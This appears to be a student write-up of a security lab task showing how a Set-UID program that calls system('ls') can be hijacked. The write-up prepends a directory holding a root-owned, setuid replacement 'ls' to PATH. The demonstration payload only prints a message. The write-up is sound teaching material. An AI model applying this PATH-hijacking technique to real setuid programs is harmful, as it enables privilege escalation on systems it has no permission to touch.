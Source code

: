 ## Task 6: The PATH Environment Variable and Set-UID Programs:
Calling `system()` within a **Set-UID** program is risky because the shell program invoked can be influenced by user-defined environment variables, such as **PATH**. Malicious users can alter these variables to manipulate the behavior of the **Set-UID** program, potentially leading to security vulnerabilities.

- **Note:** The `PATH` variable is an environment variable that tells the operating system where to look for executable files (programs) when you type a command in the terminal.

1) This **Set-UID** program is supposed to execute the `/bin/ls` command:
```c
#include <stdlib.h>

int main()
{
    system("ls");
    return 0;
}
```
- We want to edit this program to run our own malicious code instead of `/bin/ls`. Edit the code and compile it, change its owner to root, and make it a **Set-UID** program. Name the program `ls`.
```c
#include <stdlib.h>
#include <stdio.h>

int main()
{
    printf("Hello! This is not the ls command anymore! I edited it! \n");
    return 0;
}
```
```bash
gcc -o ls ls.c
sudo chown root ls 
sudo chmod 4755 ls #make it set-uid
```

2) Now, if we write `ls`, it still runs the correct `/bin/ls` command. What we have to do is to edit the environment variable `PATH` to look in where our `ls` program exists.
```bash
export PATH=/home/seed/lab4/task6:$PATH
```
```bash
#BEFORE
printenv PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:.

#AFTER
printenv PATH
/home/seed/lab4/task6:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin:.
```
- **Note:** If you changed PATH in your current terminal session using `export`, this change is temporary and will only last until you close the terminal. When you open a new terminal session, PATH will revert to its original value.

3) Now try to run the `ls` command ;)
```bash
$ ls #will run your malicious code!
Hello! This is not the ls command anymore! I edited it!

$ /bin/ls #this one will list all the files just right
ls ls.c task6 task6.c
```
### Why did it run our code instead of executing the `/bin/ls`?

Because the `PATH` environment variable looks for the command `ls` in the current diretory (that we provided) first since it's specified. When it finds that `ls` exists, it runs our program instead of the shell command.

Which proves to us that **Set-UID** programs may run malicious files with root privileges if the path variable is altered.